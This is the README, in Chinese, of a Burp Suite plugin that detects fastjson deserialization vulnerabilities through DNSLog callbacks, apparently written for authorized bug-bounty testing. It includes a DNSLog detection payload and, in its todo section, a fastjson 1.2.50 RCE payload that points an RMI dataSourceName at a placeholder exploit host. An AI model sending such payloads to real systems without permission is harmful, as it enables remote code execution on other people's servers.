 # fastjsondnslog_use
#### Burp 插件 探测fastjson

用dnslog来进行探测，使用到的payload为：{"@type":"java.net.Inet4Address","val":"x.dnslog.cn"}   (全版本支持 fastjson <= 1.2.72)

![Image text](https://github.com/f0ng/fastjsondnslog/blob/master/1.png)

#### 马赛克处为靶机host
### 1.可以看到哪个域名的，当请求数量多了，网络延迟，会造成A请求与B请求混淆，这样在请求的dnslog加上host可以起到唯一标识作用
### 2.可以看到请求的方法、路径
### 3.识别Content-Type类型为json才会发送请求，并不是所有请求都会发送该请求，且做到了三个请求探测

# fastjsondnslogvul1.0
#### Burp 插件 探测fastjson反序列化漏洞

用dnslog来进行探测是否有fastjson反序列化漏洞，所以需要和dnslog相通

### 1.可以看到哪个域名的，当请求数量多了，网络延迟，会造成A请求与B请求混淆，这样在请求的dnslog加上host可以起到唯一标识作用
### 2.可以看到请求的方法、路径，方便查找
### 3.~~识别Content-Type类型为json才会发送请求，并不是所有请求都会发送该请求，且做到了三个请求探测~~ 发现一些站点，如国内几个src，把json请求放在get里面的，这样就探测不到了，所以进行了改进，可以识别出来get请求里的{}格式，包括url编码的，亲测用本工具挖过两家src fastjson rce，5000R左右
### 4.不会冗余，做到请求去重，单个请求只会探测一次，其他burp的fastjson工具可能看到请求都会去探测

# todo
高版本的payload没有加进来，只针对于1.2.24和1.2.47两个payload
~~## 1.2.50 payload
~~{"@type":"java.lang.AutoCloseable","@type":"oracle.jdbc.rowset.OracleJDBCRowSet","dataSourceName":"rmi://x.x.x.x:4444/Exploit","command":"a"}
